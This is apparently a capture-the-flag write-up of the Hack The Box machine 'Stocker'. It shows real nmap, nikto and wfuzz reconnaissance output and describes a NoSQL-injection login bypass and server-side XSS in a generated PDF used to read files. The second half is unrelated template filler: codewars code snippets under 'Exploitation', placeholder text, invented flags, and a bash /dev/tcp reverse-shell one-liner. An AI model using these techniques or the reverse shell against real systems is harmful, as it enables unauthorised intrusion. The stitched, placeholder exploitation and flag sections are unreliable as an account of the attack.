









# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
$ nmap -A 10.10.11.196 -T4     
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-28 08:14 EDT
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Stock - Coming Soon!
|_http-generator: Eleventy v2.0.0
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.19 seconds
```
From the above output we can see that ports, **22** and **80** are the ports open.

## Nikto

```console
$ nikto -host 10.10.11.196 
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.196
+ Target Hostname:    10.10.11.196
+ Target Port:        80
+ Start Time:         2023-03-28 08:14:19 (GMT-4)
---------------------------------------------------------------------------
+ Server: nginx/1.18.0 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://stocker.htb
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ nginx/1.18.0 appears to be outdated (current is at least 1.20.1).
+ 8074 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2023-03-28 08:34:33 (GMT-4) (1214 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Nothing interesting except that the server uses an outdated version of nginx.

## wfuzz
### Subdirectories:
Since we have a website then we scan the target for subdirectories.

```console
$ wfuzz -u http://stocker.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --hc 404                                                                         

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://stocker.htb/FUZZ
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000025:   301        7 L      12 W       178 Ch      "img"                                                                                                                                          
000000536:   301        7 L      12 W       178 Ch      "css"                                                                                                                                          
000000939:   301        7 L      12 W       178 Ch      "js"                                                                                                                                           
000002757:   301        7 L      12 W       178 Ch      "fonts"
```
We found 3 subdirectories for the moment, none of which seems interesting.

### Subdomains:
Let's enumerate subdomains.

```console
$ wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 301,404 -H "Host: FUZZ.stocker.htb" -u http://stocker.htb 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://stocker.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000820:   302        0 L      4 W        28 Ch       "dev"
```
We found 1 subdomain, let's see its content.



We found a login form, I tried to bypass it using hydra and a list of default usernames but it was obvious that it wasn't the way to go.

I intercepted a request to try SQLi but it didn't seem to work either.
I also noticed the "X-Powered-By:Express" but couldn't do much with it. 

After quite some time and a lot of googling I found <a href="https://expressjs.com/en/guide/database-integration.html">this page</a> about database integration of express, and I noticed some noSQL databases so I immediately thought of trying noSQL injection and see what that would give us.
Thanks to <a href="https://book.hacktricks.xyz/pentesting-web/login-bypass">HackTricks</a>, I could try some payloads and bingo: 



We got redirected to dev.stocker.htb/stock. From this page users can add items to cart then get a purchase receipt in PDF format. 







The PDF document is generated by an opensource graphics library called <a href="https://en.wikipedia.org/wiki/Skia_Graphics_Engine">Skia</a>, but I couldn't find any relative vulnerabilities.

Let's intercept the request and see wether there are any fields we can mess with in order to achieve some sort of LFI or XSS.



The title field appears on the pdf the document so I tried to insert my payloads there.

Thanks to <a href="https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf">HackTricks</a> one more time I found some XSS dynamic PDF payloads and eventually one worked





I'll need to adjust the dimensions of the frame for a better view.

Now that I can read files, I tried to read some that contains sensitive informations or credentials:




Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://Figure.com/Wandmalfarbe/pandoc-latex-template](https://Figure.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)